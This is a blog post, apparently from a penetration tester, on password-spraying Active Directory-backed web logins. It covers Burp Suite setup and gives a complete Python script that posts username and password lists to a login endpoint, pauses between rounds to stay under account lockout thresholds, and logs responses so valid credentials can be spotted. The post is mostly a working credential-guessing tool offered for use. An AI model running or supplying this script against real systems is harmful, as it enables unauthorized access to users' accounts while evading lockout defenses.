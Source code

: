 ```yaml
---
published: true
---
```

## Password Spraying AD Authenticated Websites with Python and Burp Suite

I frequently use the Intruder tab in Burp Suite Pro to password spray websites which use Active Directory authentication. One of the problems of using Burp Suite is that there doesn't seem to be a way to avoid lockout when using a long password list. Frequently I don't get a hit on valid password on the first try with Season/Year stuff like "Winter2018!" and need to run through a list of 51 common AD passwords that I have in a file. Sure, I can paste in a list of three or four passwords (depending on my client's lockout policy), but then I have to wait X minutes and then replace those passwords with three of four more, track the time between password spray runs, etc. That's a manual process, and I'd prefer something that I can setup and just let it run to completion.

This process is going to require the Pro version of Burp Suite because you'll need to install an extension from the BApp store. In Burp Suite, install the "Copy As Python-Requests" extension. Next, proxy an authentication request to the website through Burp with Intercept on, and when it pauses on the request, right click and choose "Copy as requests". If you paste the clipboard to your editor you'll notice that each line starts with "burp0".

In the following code, you'll notice where I have placed those "burp0" lines. Paste them in to your code editor at the bottom, the cut/paste each line over the related line in this script. In the line that begins with "burp0_data", you'll need to replace the user name and password that you entered on the web page with "username" and "password" as shown below.

Once you've updated the script with your data copied using the "Copy As Python-Requests" extension, run it using the parameters shown in the usage variable. Although the script outputs to CSV which can be sorted based on content length (sort -k4 -n -t, output.csv) or opened and sorted with Gnumeric or Excel, an easier way to sort the response headers may be to proxy the requests through Burp Suite and sort them there. An easy way to proxy through Burp without having to modify the script is to set an environmental variable: export HTTPS_PROXY=“http://127.0.0.1:8080”

The script also prints timestamps to the screen which is useful for those times that you get blamed for locking out users. I believe in logging everything, and this has saved my reputation more than once when I was blamed for account lockouts which ended up being caused by something in the clien't environment.

```python
import requests
import sys
import time
from datetime import datetime

usage = "usage: python3 passwordSpray.py [/path/to/usernames.file] [/path/to/passwords.file] [minutes between each password loop] [output filename (csv)]"
if len(sys.argv) != 5:
    sys.exit(usage)
usernames = [line.rstrip('\n') for line in open(sys.argv[1])]
passwords = [line.rstrip('\n') for line in open(sys.argv[2])]
sleep_time = int(sys.argv[3]) * 60
report_header = "Username,Password,ResponseCode,ResponseLength,Redirects\n"
with open(sys.argv[4], 'w') as csvfile:
    csvfile.write(report_header)

burp0_url = "https://[redacted]:443/j_security_check"
burp0_cookies = {"redacted"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://[redacted]/j_security_check", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

for password in passwords:
    report_output = []
    for username in usernames:
        burp0_data={"j_username": username, "j_password": password, "browserLocale": "en_us", "domainName": "trust", "AUTHRULE_NAME": "ADAuthenticator", "buildNum": "100310", "clearCacheBuildNum": "100148"}
        request = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
        report_output.append(f'{username},{password},{request.status_code},{len(request.content)},{len(request.history)}')
    with open(sys.argv[4], 'a', newline='') as csvfile:
        csvfile.write('\n'.join(report_output))
    print("Completed spraying with password: {}. Time: {}".format(password, datetime.now().time()))
    print("Sleeping for {} minutes".format(sys.argv[3]))
    time.sleep(sleep_time)
```
